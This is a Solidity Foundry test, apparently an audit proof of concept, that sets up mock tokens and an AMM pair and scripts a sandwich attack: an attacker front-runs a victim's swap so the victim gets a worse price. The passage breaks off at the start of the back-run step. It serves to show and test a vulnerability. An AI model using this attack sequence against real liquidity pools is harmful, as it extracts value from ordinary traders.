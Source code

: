 ```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.26;

import { Test } from "@forge-std/Test.sol";
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import { ERC20Mock } from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import { Constants } from "../helpers/Constants.sol";
import { Pair } from "../../contracts/Pair.sol";

contract PairH2Test is Test, Constants {
    address attacker;
    address victim;

    function setUp() public {
        usdc = address(new ERC20Mock());
        weth = address(new ERC20Mock());
        pair = new Pair(usdc, weth);

        // Setup liquidity
        address liquidityProvider = makeAddr("liquidityProvider");
        deal(usdc, liquidityProvider, 1000000 * 10**6); // 1M USDC
        deal(weth, liquidityProvider, 500 * 10**18);    // 500 WETH

        vm.startPrank(liquidityProvider);
        IERC20(usdc).approve(address(pair), type(uint256).max);
        IERC20(weth).approve(address(pair), type(uint256).max);
        pair.addLiquidity(1000000 * 10**6, 500 * 10**18);
        vm.stopPrank();

        // Setup victim with some USDC to swap
        victim = makeAddr("victim");
        deal(usdc, victim, 10000 * 10**6); // 10K USDC

        // Setup attacker with some USDC to front-run
        attacker = makeAddr("attacker");
        deal(usdc, attacker, 100000 * 10**6); // 100K USDC
        deal(weth, attacker, 10 * 10**18);    // 10 WETH for initial balance
    }

       function test_SandwichAttack_VictimLosesValue() public {
        // Initial state
        (uint256 initialReserve0, uint256 initialReserve1) = pair.getReserves();
        uint256 victimUsdcAmount = 10000 * 10 ** 6; // 10K USDC

        // Calculate expected WETH output for victim without attack
        uint256 expectedWethOutput = pair.getAmountOut(usdc, weth, victimUsdcAmount);

        // 1. FRONT-RUN: Attacker executes a swap before the victim
        vm.startPrank(attacker);
        IERC20(usdc).approve(address(pair), 50000 * 10 ** 6);
        pair.swap(usdc, weth, 50000 * 10 ** 6); // Swap 50K USDC for WETH
        vm.stopPrank();

        // 2. VICTIM TRANSACTION: Victim's swap executes at worse price
        vm.startPrank(victim);
        IERC20(usdc).approve(address(pair), victimUsdcAmount);
        pair.swap(usdc, weth, victimUsdcAmount);
        uint256 victimWethReceived = IERC20(weth).balanceOf(victim);
        vm.stopPrank();

        // 3. BACK-RUN: Attacker swaps back
        vm.startPrank(attacker);
        uint256 attackerWethBalance = IERC20(weth).balanceOf(attacker);
```